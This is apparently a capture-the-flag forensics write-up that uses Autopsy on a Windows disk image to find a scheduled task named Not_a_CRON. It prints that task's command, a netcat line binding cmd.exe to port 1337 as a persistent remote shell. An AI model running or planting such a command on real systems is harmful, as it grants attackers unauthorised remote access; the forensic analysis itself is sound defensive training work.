

# FM17
## Forensics (Medium)

This challenge requires you to load the **Evidence.E01** file provided for several of the challenges. This is a raw disk image from a Windows PC that we can examine to answer the questions.

For this, we can use Autopsy to create a case and attach the disk image using the web interface:

After we have mounted the image, we can see the a windows file structure. In order to find the scheduled tasks, we can browse to:

`C:/Windows/System32/Tasks`

Where we see the file **Not_a_CRON** which contains the scheduled task definition including the command used to run the program.

`z:\tools\nc.exe -l -p1337 -e c:\windows\system32\cmd.exe`

